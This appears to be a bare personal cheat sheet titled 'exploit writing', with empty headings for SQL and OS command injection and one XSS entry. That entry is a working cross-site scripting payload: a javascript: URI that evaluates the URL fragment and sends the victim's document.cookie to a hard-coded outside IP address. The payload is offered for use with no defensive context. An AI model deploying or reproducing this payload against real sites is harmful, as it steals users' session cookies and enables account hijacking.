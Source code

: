 # exploit writing


# Stuff


# SQL


# OS CMD Injection


# XSS

javascript:eval(location.hash)#(function(){new Image().src='http://34.219.138.210/index.html?c='+document.cookie})();
